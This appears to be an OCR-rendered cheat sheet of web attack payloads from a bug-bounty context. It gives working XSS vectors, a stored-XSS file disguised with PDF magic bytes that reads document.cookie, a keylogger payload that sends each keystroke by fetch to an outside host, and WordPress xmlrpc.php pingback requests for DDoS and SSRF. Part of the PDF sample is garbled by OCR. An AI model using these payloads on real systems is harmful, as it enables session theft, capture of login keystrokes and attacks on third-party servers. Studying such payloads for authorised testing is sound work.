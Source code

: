 ```
Succesful Payloads so Far

<p ondragend=[1].map(prompt) draggable="true">dragMe</p>

<img/src=x onerror=prompt(1)>


I had success recently also by uploading a .html file with pdf magic bytes at the strat with arbitary javascript to obtain stored XSS on a program.

Payload Below:


%PDF-1.4
%Ã¤Ã¼Ã¶Ã
2 0 obj
<</Length 3 0 R/Filter/FlateDecode>>
stream
x=Ë
1E÷ù»v¶é´0è~ àø
R
R<h1>This is NOT a PDF!</h1> <img src=x onerror=alert(document.cookie)>
```

**Cross-Site Scripting Keylogger**

```
Easy JavaScript Keylogger with IMG Tags. Useful for XSS with Login Forms present.

<img src=x onerror='document.onkeypress=function(e){fetch("http://bugcrowd.com/?k="+String.fromCharCode(e.which))},this.remove();'>
```

**XMLRPC.php**

```


List all Methods
<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>


DDoS

<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<YOUR SERVER >:<port></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>


SSRF 

<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<YOUR SERVER >:<port></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>
```